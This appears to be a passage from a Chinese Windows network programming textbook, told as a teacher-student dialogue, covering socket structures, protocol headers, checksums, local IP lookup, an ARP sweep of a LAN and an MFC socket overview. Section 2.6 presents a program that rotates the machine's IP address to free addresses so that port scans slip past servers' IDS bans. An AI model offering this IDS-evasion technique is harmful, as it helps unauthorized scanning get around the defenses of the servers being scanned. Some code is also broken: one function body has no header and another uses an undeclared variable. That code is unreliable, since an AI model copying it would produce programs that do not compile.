htonl 函数的返回值是将参数 hostlong 转换成网络字节序后的值。

“而对应的，将网络字节序转换成主机字节序的函数有以下几个。”

原型：

```c
u_short ntohs(
    u_short netshort
);
```

原型：

```c
u_long ntohl(
    u_long netlong
);
```

参数 netlong 是网络字节序的无符号长整型。

ntohl 函数的返回值是参数 netlong 转换成主机字节序后的值。

“举个例子：u_short port = htons(830); 参数 830 的十六进制表示是 0x033E，经过 htons() 函数变换后，port 得到的值是 0x3E03，完成了主机地址向网络地址的转变。”

### 2.5.2 IP 地址的 C 语言定义

“要进行网络通信，离不开 IP 地址，但 IP 地址在程序中的表示方法，却不是那么直观简单的事情。我们最习惯的表达法是点分式，比如 127.0.0.1、192.168.3.1 等，该方法便于人们的观察和输入。对于这种表示法，一般定义一个长 16 的字符数组来存放。之所以定义长为 16 的数组，是因为 IP 的最长长度是 4 个 3 位地址加 3 个分隔点，为 3*4+3=15。比如 char server[16] = "127.0.0.1"。”

“我们前面讲过，IP 协议头部中的 IP 地址只有 32 位，即 4 个字节，存不下点分隔符，而且要求是网络字节顺序。所以 Net/3 以网络字节序将 IP 地址存储在一个 in_addr 结构中。该结构的定义如下。”

```c
struct in_addr
{
    union
    {
        struct { u_char s_b1, s_b2, s_b3, s_b4; } S_un_b;
        struct { u_short s_w1, s_w2; } S_un_w;
        u_long S_addr;
    } S_un;
};
```

“网络字节序的 IP 地址就存在最里面的 u_long 类型的 S_addr 中。比如我们定义了变量 struct in_addr ipaddr，使用起来就是 ipaddr.S_un.S_addr。但敲两次太麻烦了，于是 Windows 定义了一个宏 s_addr 来替代 S_un.S_addr，就是 #define s_addr S_un.S_addr，所以我们实际使用时，通常直接使用 ipaddr.s_addr 就可以了。但在 VC 的自动提示下看不到 s_addr，只有 S_un，就是因为这只是个宏定义的原因。

“为了把点分式的 IP 地址转换成网络字节序的 s_addr，就要使用 inet_addr 函数了。这个函数在刚才的‘Windows Socket 和相关函数’中已经讲过了，大家翻翻笔记吧。

“IP 地址最常使用的地方是构造 Socket 时，需要给 Socket 填入协议、端口以及 IP 地址。这些都保存在一个 sockaddr_in 结构中。sockaddr_in 结构的定义如下。”

```c
struct sockaddr_in {
    short sin_family;
    u_short sin_port;
    struct in_addr sin_addr;
    char sin_zero[8];
};
```

- sin_family 必须是 AF_INET；
- sin_port 是端口号，按照网络字节顺序；
- sin_addr 就是我们前面说的 in_addr 结构的 IP 地址；
- sin_zero[8] 没有用处，只是起填充作用，和 SOCKADDR 结构一样长。

“我们在使用时，就应该像下面一样。”

```c
struct sockaddr_in their_addr;
their_addr.sin_family = AF_INET;                      /* 协议类型是 INET */
their_addr.sin_port = htons(830);                    /* 连接对方 830 端口 */
their_addr.sin_addr.s_addr = inet_addr("127.0.0.1"); /* 连接对方的 IP */
```

“反过来，如果想把转换后的 IP 地址转换回 a.b.c.d 的形式，则可以使用 inet_ntoa 函数。函数原型如下。”

原型：

```c
char * FAR inet_ntoa(
    struct in_addr in
);
```参数 in 是网络字节序的 IP 地址结构。inet_ntoa 的返回值是标准的 a.b.c.d 形式的 IP 地址。

### 2.5.3 常用协议头部的 C 语言结构

“当我们进入更深层次的网络编程时，重要协议的头部结构会经常使用，下边我把它们的 C 语言表示形式都列了出来，大家可以对照前面‘TCP/IP 协议’一节中各协议的格式图来分析。首先是 IP 首部。”

```c
typedef struct _iphdr  //定义IP首部
{
    unsigned char h_lenver;         //4位首长+4位版本号
    unsigned char tos;              //8位服务类型TOS
    unsigned short total_len;       //16位总长度（字节）
    unsigned short ident;           //16位标识
    unsigned short frag_and_flags;  //3位标志位
    unsigned char ttl;              //8位生存时间 TTL
    unsigned char proto;            //8位协议（TCP、UDP 或其他）
    unsigned short checksum;        //16位IP首部校验和
    unsigned int sourceIP;          //32位源IP地址
    unsigned int destIP;            //32位目的IP地址
} IP_HEADER;
```

“然后是 TCP 首部。”

```c
typedef struct _tcphdr  //定义TCP首部
{
    USHORT th_sport;         //16位源端口
    USHORT th_dport;         //16位目的端口
    unsigned int th_seq;     //32位序列号
    unsigned int th_ack;     //32位确认号
    unsigned char th_lenres; //4位首部长度，6位保留字
    unsigned char th_flag;   //6位标志位
    USHORT th_win;           //16位窗口大小
    USHORT th_sum;           //16位校验和
    USHORT th_urp;           //16位紧急数据偏移量
} TCP_HEADER;
```

“接着是 UDP 首部。”

```c
typedef struct _udphdr  //定义UDP首部
{
    USHORT uh_sport;   //16位源端口
    USHORT uh_dport;   //16位目的端口
    short uh_len;      //长度
    USHORT uh_sum;     //16位校验和
} UDP_HEADER;
```

“另外，ICMP 首部也很常用。”

```c
typedef struct _icmphdr
{
    unsigned char type;       //ICMP类型(0=回送应答，8=回送请求)
    unsigned char code;       //代码
    unsigned short checksum;  //校验和
    unsigned short seq;       //序号
    unsigned short id;        //标识符
} ICMP_HEADER;
```

### 2.5.4 校验和的计算

对于头结构里面的数据，我们一般直接设定值填充就好了。但校验和例外，它的计算要复杂点，需要在其它数据都填充好后，最后来计算。

#### IP 头部的校验和

IP 首部的检验和字段是根据 IP 首部计算的检验和码，它不对首部后面的数据进行计算，所以比较简单。为了计算一份数据报的 IP 检验和，首先把检验和字段置为 0。然后对首部中每个 16bit 进行二进制反码求和（整个首部看成是由一串 16bit 的字段组成），把结果存在检验和字段中。可以使用下面这个函数来计算出校验和。

```c
USHORT checksum(USHORT *buffer, int size)
{
    unsigned long cksum = 0;
    // 每16bit都求全字节的和相加
    while (size > 1)
    {
        cksum += *buffer;
        size -= sizeof(USHORT);
    }

    // 还有一个字节没加上
    if (size)
    {
        cksum += *(UCHAR*)buffer;
    }

    // 如果结果超过16bit，超出部分也要加上
    // 如前面得到的数和为 0x0023FF31，还要计算 0x0023+0xFF31=0xFF54
    cksum = (cksum >> 16) + (cksum & 0xffff);
    // 如果再次溢出，溢出部分也要相加
    cksum += (cksum >> 16);
    // 取反得到结果
    return (USHORT)(~cksum);
}
```

> 上边代码我已经添加了详细的解释，在 checksum.cpp 的程序中，大家调试跟一下就更清楚计算的流程了。
>
> 当收到一份 IP 数据报后，同样对首部中每个 16bit 进行二进制反码的求和。由于接收方在计算过程中包含了发送方存在首部中的检验和，因此，如果首部在传输过程中没有发生任何差错，那么接收方计算的结果应该为全 1，如果结果不是全 1（即检验和错误），那么 IP 就丢弃收到的数据报，但是不生成差错报文，由上层去发现丢失的数据报并进行重传。

### TCP头部和UDP头部的校验和

TCP头部和UDP头部的校验和计算相似，不仅仅是自己的首部，还有些别的数据。它们对一个伪首部作校验和。伪首部的定义如下：

```c
typedef struct psd_hdr //定义伪首部
{
    unsigned long saddr;   // 源地址
    unsigned long daddr;   // 目的地址
    char mbz;
    char ptcl;             // 协议类型
    unsigned short tcpl;   // TCP长度
} PSD_HEADER;
```

## 2.5.5 获得本机名、IP地址以及最好的IP地址

> 为了获得本机名和本机地址，可以通过 gethostname 和 gethostbyname 两个函数得到。

原型：

```c
int gethostname(
    char* name,
    int namelen
);
```

第一个参数 name 是指向接收本地主机名字的指针，第二个参数 namelen 是 name 的长度。调用这个函数，会将主机的名字存到 name 中。注意要执行了 WSAStartup() 函数后，才能执行成功。

原型：

```c
struct hostent* FAR gethostbyname(
    const char* name
);
```

参数 name 为要解析的主机名字，可以自己指定，也可以通过 gethostname 函数得到。函数返回指向 hostent 的指针。

Hostent 结构的定义如下：

```c
typedef struct hostent {
    char FAR* h_name;
    char FAR* FAR* h_aliases;
    short h_addrtype;
    short h_length;
    char FAR* FAR* h_addr_list;
} hostent;
```

“得到了 hostent，我们就可以通过分析它，来获得 IP 地址。”老师说道，“一个完整的函数如下。”

```c
// 获取本地IP地址
unsigned long GetLocalIP()
{
    char szLocalIP[20];
    char szHostName[128] = {0};
    hostent *phe;

    // 获得本机机器名
    if (gethostname(szHostName, 128) == 0)
    {
        // 打印出机器名
        printf("%s\n", szHostName);
        // 获得本机地址
        phe = gethostbyname(szHostName);
        for (i = 0; phe != NULL && phe->h_addr_list[i] != NULL; i++)
        {
            sprintf(szLocalIP, "%d.%d.%d.%d",
                (UINT)((UCHAR*)phe->h_addr_list[i])[0],
                (UINT)((UCHAR*)phe->h_addr_list[i])[1],
                (UINT)((UCHAR*)phe->h_addr_list[i])[2],
                (UINT)((UCHAR*)phe->h_addr_list[i])[3]);

            // 打印IP地址
            printf("%s\n", szLocalIP);
        }
    }
    else
        return 0;
    return inet_addr(szLocalIP);
}
```

“在该函数中，执行到 gethostname 时，得到 szHostName 为 scu-7192b300cb7，就是我的电脑的名称了，然后再执行 gethostbyname 函数，得到指向 hostent 结构的指针。而本机的所有 IP 地址，都可以在 for 循环中分析 hostent 结构的 h_addr_list 而得到。”

“如果本机只有一个地址，是不是就准确地得到了啊？”小菜们问道。

“嗯，是的！这个函数也不会得到 127.0.0.1 这个环回地址的。”

“哦，但还是有问题啊。”小菜 C 想了想说道，“如果有很多个 IP，而我们想得到一个外网的 IP，而不是 192 或 172 那些内部地址，那该怎么办呢？”

“问得好，这种情况有两种解决方法，”老师说道。

“第一种办法还是用这两个函数，得到所有的 IP 后，一个个地检查是不是 192 或 172 开头的，如果是，就表明这个 IP 是内部地址；如果不是，就说明这个 IP 地址可能是外网地址。但这样还是显得笨拙，而且当有两块网卡的时候，还很不准确。第二种方法是用 GetBestInterface() 这个函数。使用方法是指定一个想连接到的 IP 地址，然后用 GetBestInterface 寻找本机通往那个 IP 地址的最佳 IP 出口。函数如下。”

原型：

```c
DWORD GetBestInterface(
    IPAddr dwDestAddr,
    PDWORD pdwBestIfIndex
);
```

“第一个参数 dwDestAddr 为我们想连接的 IP 地址，第二个参数为返回的最佳 IP 接口的索引值。”

“得到最佳 IP 接口的索引值后，我们取 IP 列表中的那个位置的 IP 地址就 ok 了。”老师说道，“IP 列表可以通过 GetIpAddrTable 函数得到。所以万事俱备，也不欠东风了。给出一个例子程序如下。”

```c
// GetBestIP.cpp  定义控制台应用程序的入口点。
#include "stdafx.h"
#include <stdio.h>
#include <windows.h>
#include <iphlpapi.h>
#pragma comment(lib, "WS2_32")
#pragma comment(lib, "Iphlpapi.lib")
#define INVALID_ADDRESS    0             // 定义非法地址
#define DEFAULT_DESTINATION "192.168.0" // 定义想连接的目标IP地址

// 此类封装IP地址
DWORD RetrieveByIndex(DWORD index);

PMIB_IPADDRTABLE    pAddrTable(NULL);
PMIB_IPADDRROW      pAddrRow(NULL);
ULONG               ulSize(0);
DWORD               ret = INVALID_ADDRESS;
char*               pBuffer = NULL;

// 第一次 ulSize 为 0，调用 GetIpAddrTable 获得 IP 列表大小
GetIpAddrTable((PMIB_IPADDRTABLE)(char*)pBuffer, &ulSize, TRUE);

// 为 IP 列表大小分配空间
pBuffer = new char[ulSize];
// 如果分配空间失败，返回
if (!pBuffer) return INVALID_ADDRESS;

// 第二次 ulSize 为 IP 列表大小，调用 GetIpAddrTable 获得 IP 列表
DWORD dwResult = GetIpAddrTable((PMIB_IPADDRTABLE)(char*)pBuffer, &ulSize, TRUE);
if (dwResult == NO_ERROR)
{
    // 转换成 PMIB_IPADDRTABLE 结构
    pAddrTable = (PMIB_IPADDRTABLE)(char*)pBuffer;

    // 对每个 IP 比较索引
    for (DWORD x = 0; x < pAddrTable->dwNumEntries; x++)
    {
        pAddrRow = (PMIB_IPADDRROW)&(pAddrTable->table[x]);

        // 如果索引值相同，取出对应的地址返回
        if (pAddrRow->dwIndex == index)
        {
            ret = pAddrRow->dwAddr;
            delete [] pBuffer;
            return ret;
        }
    }
}

delete [] pBuffer;
return INVALID_ADDRESS;

// 获得连接到 DEFAULT_DESTINATION 的最佳 IP 地址
DWORD RetrieveBestInterface(void)
{
    DWORD dwBestIndex = INVALID_ADDRESS;

    // 调用 GetBestInterface 函数，获得能最好地到达 DEFAULT_DESTINATION 的 IP 地址索引
    DWORD dwResult = GetBestInterface(inet_addr(DEFAULT_DESTINATION), &dwBestIndex);
    if (dwResult == NO_ERROR)
    {
        // 通过索引获得 IP 地址
        return RetrieveByIndex(dwBestIndex);
    }

    return INVALID_ADDRESS;
}

// main
int _tmain(int argc, _TCHAR* argv[])
{
    // 初始化
    WSADATA ws;
    WSAStartup(MAKEWORD(2,2), &ws);

    // 获得最佳接口 IP 地址（网络字节序的）
    DWORD dwIP = RetrieveBestInterface();

    // 将网络字节序的 IP 转换成 a.b.c.d 型
    in_addr in;
    in.S_un.S_addr = dwIP;
    printf("%s\n", inet_ntoa(in));
    return 0;
}
```


“运行结果如图 2-30 所示，成功得到我们的 IP 地址。在实际使用时，可以把 DEFAULT_DESTINATION 定义成 163、Google 等常用网站的地址，或者我们想连接的 IP 地址，从而获知哪个网络接口可以成功连接。”

老师最后说道：“OK，这些细节的地方，很多从事网络编程多年的人可能都没有加以注意。大家在遇到问题时，可以来这里寻找答案。不过，对于初学者，还是需要练习更多的例子，来提高自己的基本功。”

“好啊，好啊，老师继续教我们写一些例子程序吧。”小菜们迫不及待地嚷道。

## 2.6 自动改变本机 IP 为空闲地址——网络编程例子之二

“我们继续编写一个与网络相关的程序。”老师说道，“在现实中，当想扫描对方开放的端口或者获得某个信息时，我们会对端口或信息发出请求，服务器进行回应。如果想获得的数据比较多，就会对服务器发出大量的请求。如此大量和短时间的突发连接，会被服务器端的 IDS 怀疑成异常流量甚至是 DOS 攻击，从而列入到怀疑列表中，自动封其 IP 地址，致使不能进行访问。如果 IP 被封了可是件非常郁闷的事情，可能会导致 1 到 3 天内都不能访问，从而获取不到任何自己想要的信息了。”

“各种扫描技术和程序的编写，我们会在下节课中讲述。”老师说道，“在这里，我们主要看另一个问题，就是如何绕过这样的 IP 封锁。大家想想，有什么办法吗？”

小菜 A 皱了皱眉头，说道：“我们可以使用代理。首先找到许多代理放在一个列表里，然后每扫描到一定的时间时，就换成列表中的下一个代理，利用代理进行请求的转发，这样就可以突破单 IP 的封锁了。”

“对，这是一个比较直观的方法！”杨老师赞扬道，“还有其它方法吗？”

“那就干脆直接改变本机的 IP 吧！”小菜 B 说道，“我们可以在全速扫描一阵后，把本机的 IP 改成另外一个空闲的未被使用的 IP 地址再进行扫描，扫描一阵后，再次改变 IP。由于每次 IP 地址都不一样，就可以避免这个问题了。”

“非常好！”老师满意地说道，“改变本机 IP 为空闲 IP 地址分为两个步骤：1. 判断可配置网段中当前的空闲 IP 地址；2. 把本机的 IP 地址改为下一个空闲的 IP 地址。这两步都可以通过手工来实现，但是如果要用程序实现，判断本网段中空闲的 IP 地址，就要用到 ARP 协议了。”

### 2.6.1 ARP协议

地址解析协议（ARP）是用来实现 32 位 IP 地址与 48 位本地网络中的物理地址（以太网 MAC 地址）之间的映射。IP 数据包在以太网上发送的时候，以太网设备并不识别 32 位 IP 地址：它们是以 48 位以太网地址传输以太网数据包的。因此，IP 驱动程序必须把 IP 目的地址转换成以太网目的地址。在这两种地址之间存在着某种静态的或动态的映射，常常需要查看一张表。ARP 就是用来确定这些映射的协议。ARP 工作时，送出一个含有所有逻辑 IP 地址的以太网广播数据包，目的地主机用一个含有 IP 和以太网地址对的数据包作为应答。发送者将这个地址高速缓存起来，以节约不必要的 ARP 通信。在以太网上解析 IP 地址时，ARP 请求和应答分组的格式如图 2-31 所示。

以太网报头中的前两个字段是以太网的源地址和目的地址。目的地址为全 1 的特殊地址是广播地址。电缆上的所有以太网接口都要接收广播的数据帧。两个字节长的以太网帧类型表示后面数据的类型。对于 ARP 请求或应答来说，该字段的值为 0x0806。hardware（硬件）和 protocol（协议）用来描述 ARP 分组中的各个字段。例如一个 ARP 请求分组询问协议地址（这里是 IP 地址）对应的硬件地址（这里是以太网地址）。硬件类型字段表示硬件地址的类型，它的值为 1，即表示以太网地址。协议类型字段表示要映射的协议地址类型，它的值为 0x0800，即表示 IP 地址。接下来的两个 1 字节的字段，硬件地址长度和协议地址长度分别指出硬件地址和协议地址的长度，以字节为单位。对于以太网上 IP 地址的 ARP 请求或应答来说，它们的值分别为 6 和 4。操作字段指出四种操作类型，它们是 ARP 请求（值为 1）、ARP 应答（值为 2）、RARP 请求（值为 3）和 RARP 应答（值为 4）（我们将在第 5 章中讨论 RARP）。这个字段是必需的，因为 ARP 请求和 ARP 应答的帧类型字段是相同的。接下来的四个字段是发送端的硬件地址（在本例中是以太网地址）、发送端的协议地址（IP 地址）、目的端的硬件地址和目的端的协议地址。对于一个 ARP 请求来说，除目的端硬件地址外的所有其它字段都填充值。当系统收到一份目的端为本机的 ARP 请求报文后，它就把硬件地址填写进去，然后用两个目的端地址分别替换两个发送端地址，并把操作字段置为 2，最后把它发送回去。


```c
arp -a
```

“在 Windows 系统中，可以使用 arp 命令查看本机的 ARP 缓存。”老师说道，“在控制台命令行中输入 arp -a，其结果如图 2-32 所示。”

“大家可以看到，在当前的 ARP 缓存中有一条记录，就是 IP 地址为 192.168.0.251 的电脑，其对应的 MAC 地址为 00-40-45-0d-fe-7f。”

“真的是这样呀。”

“如果想知道 arp 工具更多的参数和作用，可以输入 `arp -?`，它就会给出详细的信息，如图 2-33。”

“参数中比较有用的是 `arp -d`，它的作用是清空当前 ARP 缓存中保存的记录，这可以用在反 arp 欺骗中。另外，`arp -s IP地址 MAC地址` 可以在 arp 缓存中添加一条静态的映射，静态映射不会因为超时而被删除掉。”


图 2-33

### 2.6.2 获得空闲 IP 地址

“有了 ARP 协议，我们就可以知道当前网络上使用的和空闲的 IP 地址了。大家都有这样的经验，当 IP 出现冲突时，Windows 会报 IP 地址冲突错误。我们在程序里面可以通过发送一个 ARP 包，请求一个 IP 的 MAC 地址，如果有返回，就表示该 IP 已经被别的机器占用；如果没有，就表示这个 IP 还是空闲的，还没有被人使用。发送 ARP 请求包并获得回应，可以通过 `SendARP()` 这个 API 函数来实现。SendARP 函数的原型如下。”

```cpp
DWORD SendARP(
    IPAddr DestIP,      // 请求的 IP 地址
    IPAddr SrcIP,       // 自己的 IP 地址
    PULONG pMacAddr,    // 如果 IP 被使用，返回对应的 MAC 地址
    PULONG PhyAddrLen   // 返回 MAC 地址的长度
);
```

“如果没有错误，对方电脑返回对应的 MAC 地址，函数的返回值为 `NO_ERROR`。因此，我们用一个循环，生成每一个 IP 地址，程序如下。”

```cpp
for (int ip = 1; ip < 255; ip++)
{
    // 生成 192.168.0.x 形式的局域网 IP 地址，从 1 到 254
    sprintf(strIP, "192.168.0.%d", ip);
}
```

“这样生成的 strIP 就是 `192.168.0.1`、`192.168.0.2` 这样的形式了，然后我们用 SendARP 函数对每个生成的 IP 发送 ARP 请求。”

```cpp
ipAddr = inet_addr(strIP);               // 转化 IP 地址为 ipAddr 结构
memset(pulMac, 0xff, sizeof(pulMac));    // 清空初始值
ulLen = 6;
hr = SendARP(ipAddr, 0, pulMac, &ulLen); // 调用 SendARP 函数
```

“当返回的不是 `NO_ERROR` 时，就说明没有机器使用该 IP 地址，尝试下一个 IP 地址。”

```cpp
if (hr != NO_ERROR)    // 如果不为 NO_ERROR，就不打印出 MAC 地址
    continue;
```

“否则，就打印该 IP 地址对应的 MAC 地址。”

```cpp
size_t i, j;
char* szMac = new char[ulLen * 3];
PBYTE pbHexMac = (PBYTE)pulMac;
for (i = 0, j = 0; i < ulLen; ++i) // 把返回的 16 进制转化为可读形式
{
    j += sprintf(szMac + j, "%02X:", pbHexMac[i]);
}
sprintf(szMac + j, "%02X", pbHexMac[i]);
printf("MAC address %s\n", szMac);    // 打印出 MAC 地址
```

“代码合起来如下，我们可以建立一个 Win32 控制台项目，把下列代码放在项目源文件中。”

```cpp
// SendARP.cpp：定义控制台应用程序的入口点。

#include "stdafx.h"
#include <windows.h>   // 包含必要的头文件
#include <stdio.h>
#include <tchar.h>
#include <iphlpapi.h>

#pragma comment(lib, "ws2_32")
#pragma comment(lib, "iphlpapi.lib")

int main(int argc, _TCHAR* argv[])
{
    HRESULT hr;
    IPAddr ipAddr;
    ULONG pulMac[2];
    ULONG ulLen;
    char strIP[20];
    for (int ip = 2; ip < 255; ip++)
    {
        sprintf(strIP, "192.168.0.%d", ip);
        ipAddr = inet_addr(strIP);
        memset(pulMac, 0xff, sizeof(pulMac));
        ulLen = 6;
        hr = SendARP(ipAddr, 0, pulMac, &ulLen);
        printf("IP: %s", strIP);
        printf("Return=%08x, length=%d\n", hr, ulLen);
        if (hr != NO_ERROR)
            continue;
        size_t i, j;
        char* szMac = new char[ulLen * 3];
        PBYTE pbHexMac = (PBYTE)pulMac;
        for (i = 0, j = 0; i < ulLen - 1; ++i)
            j += sprintf(szMac + j, "%02X:", pbHexMac[i]);
        sprintf(szMac + j, "%02X", pbHexMac[i]);
        printf("MAC address %s\n", szMac);
        delete[] szMac;
    }
    return 0;
}
```

“编译、运行，其结果如图 2-34 所示，打印出了已使用 IP 所对应的机器 MAC 地址。这样就知道网络上的空闲 IP 地址了。我们接下来的工作就是要把本机 IP 改为空闲的 IP 地址。”

### 2.6.3 自动改变本机 IP 地址

“平时大家手动改变本机 IP 地址是如何操作的呢？”老师问道。

“这个简单，打开本地连接属性，在 Internet 协议（TCP/IP）属性里面修改。”小菜们答道。

“嗯，不错，那如何在命令行下实现呢？”

“命令行下？”小菜们说道，“命令行下可以改 IP 地址吗？只知道 ipconfig 命令可以查看当前的 IP 配置，但并不能修改 IP 啊。”

“ipconfig 是不能修改，但我们在命令行下可以使用 netsh 来改变本机的 IP 地址。在命令行下输入 netsh，就会进入 netsh 运行界面，如图 2-35。在 netsh 的任何时候输入一个 `?`，都会给出详细的帮助信息，以及当前状态下可以执行的命令，如图 2-36。”

“依次输入 interface、ip，会进入 IP 设置状态，这时我们用 set address 命令就可以设置本机的 IP 地址了，其语法为 **set address 接口名称 static IP地址 子网掩码 [网关 默认网关的跃点数]**。比如我们要改变本机 IP 为 192.168.0.2，只用输入 **set address "本地连接" static 192.168.0.2 255.255.255.0**，如图 2-37。”

“待返回确定后，我们用 **show address** 命令可以看到，主机的 IP 地址的确被改为 192.168.0.2 了。”

“哦，netsh 这么强大啊！”小菜们说道。

“其实 Windows 下的控制台命令是非常强大的，几乎所有的操作都可以在命令行下完成。”老师说道。


“手动输入这么多命令还是比较麻烦，可以把要执行的命令都输入到一个文本里，然后在命令行下直接执行 `netsh exec 文本文件名` 就可以一次性完成所有要执行的命令了。比如说，我们建立一个文本 `ip.txt`，写入刚才我们所输入的内容。”

```txt
interface ip
set address "本地连接" static 192.168.0.5 255.255.255.0
```

“在命令行下执行 **netsh exec ip.txt**，其结果如图 2-38 所示，成功改变本机的 IP 地址为 192.168.0.5。”

“哦，果然又成功了！”

“现在，既然在命令行下可以完成更改 IP 的功能，那么我们也可以编程实现了。程序的流程就是打开一个文件，写入要执行的内容，如 interface ip 以及要改变成的 IP 地址，最后调用 system() 函数执行 `netsh exec ip.txt` 就可以了。具体的实现就是先打开一个文件，这个文件我们起名为 `ip.txt`。”

```cpp
// 文件指针
FILE* fe;
// 打开文件 ip.txt
fe = fopen("ip.txt", "w+");
```

“向文件写入要执行的内容。”

```cpp
// 输入 interface ip
// set address static
fputs("interface ip\r\nset address \"本地连接\" static ", fe);
// 输入要设置的 ip
fputs(ip, fe);
// 输入掩码
fputs(" 255.255.255.0", fe);
```


“最后关闭文件，调用 system 函数执行 **netsh exec ip.txt**。”

```cpp
// 关闭文件
fclose(fe);
// 执行 netsh exec ip.txt
system("netsh exec ip.txt");
```

“还可以使用 remove 函数把 `ip.txt` 文件删掉，避免出现垃圾文件。”

```cpp
// 删除 ip.txt
remove("ip.txt");
```

“合起来，程序如下，可以将本机 IP 改为 192.168.0.5。”

```cpp
// ChangeIp.cpp：定义控制台应用程序的入口点。
#include "stdafx.h"
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int _tmain(int argc, _TCHAR* argv[])
{
    char ip[40] = "192.168.0.5";
    // 文件指针
    FILE* fe;
    // 打开文件 ip.txt
    fe = fopen("ip.txt", "w+");
    // 输入 interface ip
    // set address static
    fputs("interface ip\r\nset address \"本地连接\" static ", fe);
    // 输入要设置的 ip 地址
    fputs(ip, fe);
    // 输入掩码
    fputs(" 255.255.255.0", fe);
    // 关闭文件
    fclose(fe);
    // 执行 netsh exec ip.txt
    system("netsh exec ip.txt");
    // 删除 ip.txt
    remove("ip.txt");
}
```

“现在我们只要将这个程序与刚才获得空闲 IP 地址连接起来，就可以完美地实现自动改变本机 IP 为空闲地址的功能了！”老师说道，“这一点非常简单，就是得到空闲的 IP 地址后，把该地址赋给 ip[40] 变量，写到命令文本 ip.txt 中，然后再执行就可以了。这个就留给大家作为家庭作业吧。”

“好的，没问题！”小菜们明白了思路后，毫不含糊，一口答道。

## 2.7 MFC 对 Windows Socket API 的封装

“我们之前都是基于 Socket 直接操作。大家可以看到，这样做比较繁琐。对此，微软的 MFC 对网络的相关函数进行了封装，把复杂的 WinSock API 函数封装到了类里，方便程序员的开发。”老师说道。“下面我们看看 MFC 是如何对 WinSock API 函数进行封装的吧。”

### 2.7.1 面向对象编程的思想之一——封装 CAsyncSocket

“封装？封装是什么意思呢？”小菜们疑惑地问道。

“封装是面向对象编程的三大思想之一，就是把能完成一定功能的实体包起来，外面只能看见入口参数和出口值，并不需要了解此功能块里面具体是怎么实现的。比如，有一个封装，人人都想得到‘PaperToMoney(...)’，你只要输入纸，就能出来钱！”

“哇，出票呀！”小菜们流口水了。

“对，我们只对它的功能感兴趣，对于里面怎么转换不用关心，可能是印钞机印的，当然也可能是画的。”

“封装以后，可以在不改变用户调用接口的情况下，改变具体的实现。比如，那个 PaperToMoney，钞票可以之前是印的，之后改成和外星人交换的，但用户都可以不管，一直调用 PaperToMoney 就可以了。”

“封装的好处是可以避免内部数据被破坏，提高代码重用性，也可以使得复杂的编程变得简单。在 MFC 中，对网络编程的封装有 CAsyncSocket 和 CSocket 这两个类，它们逐个封装了 WinSock API，提供了灵活有力的网络编程方法。CAsyncSocket 在很低的层次上封装了 WinSock API，因此适用于熟悉网络通信细节的程序员。CAsyncSocket 类针对字节流型套接字的编程模型简述如下。”

- 1、构造一个 CAsyncSocket 类的对象，并用这个对象的 Create 成员函数产生一个 Socket 句柄。可以按如下两种方法构造：

```cpp
CAsyncSocket sock;  // 使用默认参数产生一个字节流套接字
sock.Create();
```

或在指定端口号产生一个数据报套接字：

```cpp
CAsyncSocket* pSocket = new CAsyncSocket;
int nPort = 27;
pSocket->Create(nPort, SOCK_DGRAM);
```

第一种方法在栈上产生一个 CAsyncSocket 对象，而第二种方法在堆上产生 CAsyncSocket 对象。第一种方法中 Create() 成员函数用缺省参数产生一个字节流套接字，第二种方法中用 Create() 成员函数在指定的端口产生一个数据报套接字。

## CAsyncSocket 对象

> “下面是一些必须用到的 CAsyncSocket 类成员函数的原型和解释。”

#### 一、Create 成员函数

原型：

```cpp
BOOL Create(
    UINT nSocketPort = 0,
    int nSocketType = SOCK_STREAM,
    long lEvent = FD_READ | FD_WRITE | FD_OOB | FD_ACCEPT | FD_CONNECT | FD_CLOSE,
    LPCTSTR lpszSocketAddress = NULL
);
```

nSocketPort：为套接字指定的端口，缺省时将自动为套接字选择可用的端口。  
nSocketType：套接字类型，默认为字节流方式，如果把该参数设为 `SOCK_DGRAM`，将创建数据报式套接字。  
lEvent：该参数用于指定可以通知相关窗口的消息，缺省为列出的所有事件都将生成相应的消息通知相关的窗口。  
lpszSocketAddress：套接字的网络地址，缺省时为本机的网络地址。

#### 二、Connect 成员函数

原型：

```cpp
BOOL Connect(
    LPCTSTR lpszHostAddress,
    UINT nHostPort
);
```

对于客户端程序，需要调用 Connect 成员函数连接到服务器。lpszHostAddress：服务器地址，例如“202.12.15.1”或 `www.microsoft.com` 之类的网络地址。nHostPort：服务器 Socket 端口号。

#### 三、Listen 成员函数

原型：

```cpp
BOOL Listen(
    int nConnectionBacklog = 5
);
```

对于服务器端程序，需要调用 Listen 成员函数对 Socket 所在的端口进行监听。处于监听状态的流套接字将维护一个客户连接请求队列，该队列最多容纳 nConnectionBacklog 个客户连接请求，默认是设置成容纳 5 个请求。

#### 四、Accept 成员函数

原型：

```cpp
virtual BOOL Accept(
    CAsyncSocket& rConnectedSocket,
    SOCKADDR* lpSockAddr = NULL,
    int* lpSockAddrLen = NULL
);
```

服务器端程序一旦收到连接请求，就调用 Accept 成员函数开始接收。  
rConnectedSocket：指定一个空的 CAsyncSocket 对象，即由 CAsyncSocket 的构造函数构造的还未调用 Create 成员函数创建套接字的 CAsyncSocket 对象；  
lpSockAddr：返回新创建的套接字的地址结构，默认为 `NULL`；  
lpSockAddrLen：返回新创建的套接字的地址结构的长度，默认为 `NULL`。

#### 五、Send 成员函数

原型：

```cpp
virtual int Send(
    const void* lpBuf,
    int nBufLen,
    int nFlags = 0
);
```

CAsyncSocket 利用 Send 来发送数据。

lpBuf 指明一个存放应用程序要发送数据的缓冲区；nBufLen 指明实际要发送的数据的字节数；nFlags 一般置 0。

#### 六、Receive 成员函数

原型：

```cpp
virtual int Receive(
    void* lpBuf,
    int nBufLen,
    int nFlags = 0
);
```

lpBuf 指明一个存放应用程序要接收数据的缓冲区；nBufLen 指明 lpBuf 的字节数；nFlags 一般置 0。

“这个和 Socket 编程的流程很相像啊。”小菜们回忆道。

“是的，因为本来就是对 Socket 的封装！”老师说道，“但是不同的是，CAsyncSocket 是异步的，缺省情况下，该类的所有操作都会立即返回。我们需要自己写一个类来继承 CAsyncSocket，并重载它的 OnReceive、OnAccept、OnConnect 等方法，加入自己的处理。因此如果对网络通信了解不多，想实现一个简单的网络通信解决方案，避免涉及太多细节，则应使用 CSocket。”

### 2.7.2 面向对象编程的思想之二——继承 CSocket

“CSocket 类是从 CAsyncSocket 继承而来的。”老师说道。

“继承？又是什么意思呢？”小菜们问道。

